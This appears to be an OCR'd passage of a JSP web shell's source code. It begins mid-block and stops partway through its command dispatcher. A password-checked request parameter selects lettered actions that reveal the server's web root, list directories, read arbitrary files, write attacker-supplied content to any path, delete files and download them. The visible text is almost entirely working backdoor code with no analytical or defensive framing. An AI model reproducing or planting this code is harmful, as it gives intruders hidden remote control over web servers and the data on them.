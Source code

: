 ```
           } catch (Exception ee) {  
               sb.append(ee.toString() + "\t|\t\r\n");  
           }  
       }  
        m.close();  
     c.close();  
}  
%>  
<%  

//String Z = EC(request.getParameter(Pwd) + "", cs);  

   cs = request.getParameter("code") != null ? request.getParameter("code")+ "":cs;  
  request.setCharacterEncoding(cs);  
   response.setContentType("text/html;charset=" + cs);  
  StringBuffer sb = new StringBuffer("");  
if (request.getParameter(Pwd) != null) {  

  try {  
     String Z = EC(request.getParameter("action") + "");  
       String z1 = EC(request.getParameter("z1") + "");  
       String z2 = EC(request.getParameter("z2") + "");  
      sb.append("->" + "|");  
      String s = request.getSession().getServletContext().getRealPath("/");  
     if (Z.equals("A")) {  
          sb.append(s + "\t");  
           if (!s.substring(0, 1).equals("/")) {  
             AA(sb);  
          }  
      } else if (Z.equals("B")) {  
          BB(z1, sb);  
       } else if (Z.equals("C")) {  
           String l = "";  
          BufferedReader br = new BufferedReader(new InputStreamReader(new FileInputStream(new File(z1))));  
          while ((l = br.readLine()) != null) {  
               sb.append(l + "\r\n");  
        }  
           br.close();  
      } else if (Z.equals("D")) {  
          BufferedWriter bw = new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(z1))));  
          bw.write(z2);  
          bw.close();  
           sb.append("1");  
      } else if (Z.equals("E")) {  
            EE(z1);  
           sb.append("1");  
       } else if (Z.equals("F")) {  
          FF(z1, response);  
       } else if (Z.equals("G")) {  
         GG(z1, z2);  
           sb.append("1");  
      } else if (Z.equals("H")) {  
          HH(z1, z2);  
          sb.append("1");  
       } else if (Z.equals("I")) {  
          II(z1, z2);  
           sb.append("1");  
       } else if (Z.equals("J")) {  
           JJ(z1);  
         sb.append("1");  
       } else if (Z.equals("K")) {  
```